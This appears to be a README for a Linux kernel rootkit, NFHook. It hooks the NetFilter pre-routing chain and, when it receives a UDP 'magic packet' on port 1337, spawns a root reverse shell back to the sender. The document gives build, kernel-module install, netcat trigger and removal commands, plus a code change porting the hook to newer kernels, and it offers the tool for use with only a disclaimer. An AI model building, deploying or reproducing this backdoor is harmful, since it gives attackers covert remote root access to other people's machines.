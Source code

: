 # NFHook: NetFilter Hooking rootkit

### No longer original,Modified by me to specifically work with my kernel version,
### which was by the time I wrote this, 5.9.1 on Arch.



This rootkit registers a hook in the NetFilter pre-routing chain with high
priority, that is all incoming packets get through this hook first.

Once a "magic packet" is received (UDP packet on port 1337), a root reverse shell is
spawned back to the requester on the very same port.

Make sure you have un reverse shell script in `/usr/bin/reverse_shell.sh`

## Compilation ##
```
	$ make
```

## Installation ##
```
	$ sudo insmod nfhook.ko
```

## Usage ##
```
	$ echo "Hello world" | nc -u $target 1337
```

## Removal ##
```
	$ sudo rmmod nfhook
```

## Disclaimer ##

This is an experimental rootkit. Use it at your own risks.


# Modifications: #




# nfhook.c
      (...)
      // nf_register_hook(&rk_pre_routing);
      // nf_unregister_hook(&rk_pre_routing);
      
      // To
      nf_register_net_hook(&init_net,&rk_pre_routing);
      nf_unregister_net_hook(&init_net,&rk_pre_routing);
      
      
      
References I learned from:
https://elixir.free-electrons.com/linux/v4.13.16/source/net/core/net_namespace.c#L37
https://elixir.bootlin.com/linux/latest/source/include/linux/netfilter.h#L177
https://www.linuxjournal.com/article/7184
